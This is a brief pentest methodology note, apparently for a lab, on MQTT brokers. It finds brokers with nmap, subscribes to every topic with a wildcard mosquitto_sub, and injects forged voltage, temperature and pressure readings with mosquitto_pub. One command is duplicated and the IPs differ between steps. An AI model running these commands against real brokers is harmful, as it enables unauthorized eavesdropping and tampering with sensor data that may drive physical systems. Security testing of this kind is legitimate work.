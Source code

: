 methodlogy
mqtt:
discover with nmap (look for 1883,8883)
perform wildcard subscription to view alerts (and validate our own)
`mosquitto_sub -t "#" -h 192.94.218.3 -v`  
now if we either have credentials or if there is weak security we can publish our own updates to sensors
`mosquitto_pub -t "sensor" -m '{"voltage":"228.703144053156","temperature":"37.42692765207313","pressure":"50.8083798170982"}' -h 192.94.128.3`  
`mosquitto_pub -t "sensor" -m '{"voltage":"228.703144053156","temperature":"37.42692765207313","pressure":"50.8083798170982"}' -h 192.94.128.3`  
